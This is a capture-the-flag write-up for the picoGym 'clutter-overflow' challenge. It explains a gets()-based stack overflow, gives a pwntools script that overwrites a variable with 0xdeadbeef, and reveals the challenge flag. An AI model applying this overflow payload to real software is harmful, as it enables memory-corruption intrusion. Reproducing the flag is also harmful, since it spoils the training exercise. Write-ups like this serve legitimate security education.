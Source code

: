 # picoGym - clutter-overflow

* **Category:** Binary Exploitation
* **Points:** 150

## Challenge

Clutter, clutter everywhere and not a byte to use. `nc mars.picoctf.net 31890`

## Solution
According to the chall.c file, the system will give us the flag if `code` is set to `0xdeadbeef`. While `code` cannot be directly modified, the `gets` function can read more input than the buffer that it has been given, and can be used to overflow the char array `clutter` to change `code`.

 Looking at the decompiled main function of chall in Ghidra, `local10` can be infered as `code` as it is being compared to `0xdeadbeef` , and `local118`  can be infered as `clutter` as it is a  character array. The difference between their character offsets is `0x108`, meaning that `0x108` characters have to be provided before overflowing `clutter` and modifying `code` to `0xdeadbeef`.

The following python script can be used to perform the attack. Uncomment the target line depending on whether the binary or the server is being attacked.
``````
from pwn import * #imports all of the tools from pwntools

#target = process('./chall') #executes the ELF if it is in the current directory
#target = remote('mars.picoctf.net', 31890) #starts a netcat to the specified target

payload = b'a'*0x108 #fills up the entire char array with a
payload += b'\xef\xbe\xad\xde' #overflows with 0xdeadbeef, little endian

target.sendline(payload) #sends the line

while True:
        print(target.recvline()) #prints all lines recieved
``````

`picoCTF{c0ntr0ll3d_clutt3r_1n_my_buff3r}`




## Thanks to PentaHex CTF for providing the template.
